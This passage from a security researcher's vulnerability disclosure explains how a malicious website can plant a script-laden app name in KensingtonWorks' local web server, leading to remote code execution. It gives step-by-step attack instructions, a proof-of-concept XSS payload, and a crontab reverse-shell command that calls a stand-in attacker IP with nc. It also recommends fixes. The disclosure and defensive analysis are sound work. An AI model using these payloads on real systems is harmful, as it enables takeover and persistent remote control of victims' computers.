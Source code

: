 When the user next opens the KensingtonWorks UI, the application will attempt to display a list of all the applications for which the user has created app-specific configurations. When KensingtonWorks comes to display the attacker's maliciously-named app, it interprets the app's name as JavaScript code and executes it. The `spawn` NodeJS function in the payload allows the attacker to run a shell command of their choice, giving them direct remote code execution.

A step-by-step guide:

1. Lure the victim to navigate their browser to a website that you control
2. Send a `POST` request to `/config/apps?device=$DEVICE_ID` for every value of `$DEVICE_ID` between 00000 and 99999. The body of the request should be the JSON string `{"name": "$YOUR_PAYLOAD_COMMAND_HERE", "identifier": "test"}`. Enumerating through all 100,000 possible device IDs should take less than 5 minutes.
3. Wait for the victim to open the KensingtonWorks UI. Your payload shell command will silently execute, allowing you to take control of the victim's machine

Below is a proof of concept gif generated by running this attack on myself using the payload:

`"\<script\>require('child_process').spawn('open', ['/Applications/Calculator.app/']);\</script\>"`

This payload means that whenever KensingtonWorks opened, the `Calculator.app` program opens too:

<img src="/images/kensington-xss-demo.gif" />

A real attacker would use a more vicious payload command like the following:

`crontab -l | { cat; echo "*/5 * * * * nc ATTACKER.IP.ADDR.ESS 1234 | /bin/sh"; } | crontab -`

This command creates a cronjob that causes a victim's computer to repeatedly phone home to a server controlled by an attacker. It opens a "reverse shell", giving the attacker persistent access to execute further arbitrary commands, sniff round the victim's machine, and (for example) download their entire hard drive.

### How Kensington could patch this vulnerability

I notified Kensington about this vulnerability on `2020-07-06`, but they haven't fixed it or been in touch with me. A slapdash fix would be to add sanitization to every place in the program that displays variable data loaded from an external source. For safety, this should even be done for those data sources that an attacker shouldn't be able to influence.

However, the root cause of both this and the previous vulnerability I found is still the insecure local web server. As long as it is possible for an attacker to interfere with a victim's configuration using only a malicious website, KensingtonWorks is vulnerable to settings-manipulation, which is only a small mis-step away from another remote code execution flaw.

As I've already written, I don't think that KensingtonWorks should be using a local web server at all. However, I acknowledge that corporate constraints mean that a full rewrite of the tool is unlikely. If Kensington sticks with the local web server model, they should at least add authentication that prevents an attacker from interacting with it. I'm told that the industry standard for securing such local web servers is to require a custom HTTP header to be set on all requests sent to the tool. It doesn't matter what value the header takes, so long as it begins with `Sec-`. For example:

```
Sec-X-KensingtonWorks: 1
```

This works because browsers [don't allow JavaScript running on webpages to set custom HTTP headers][headers] that begin with `Sec-` on their AJAX requests. Even though an attacker knows exactly the header that they need to send in order to circumvent the new security, the user's browser makes it impossible for them to set this header on a JavaScript HTTP request to KensingtonWorks.


[ken1]: https://robertheaton.com/remote-code-execution-kensingtonworks/
[kenworks]: https://www.kensington.com/en-gb/software/kensingtonworks/
[electron]: https://www.electronjs.org/
[parsia]: https://twitter.com/cryptogangsta
[cors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS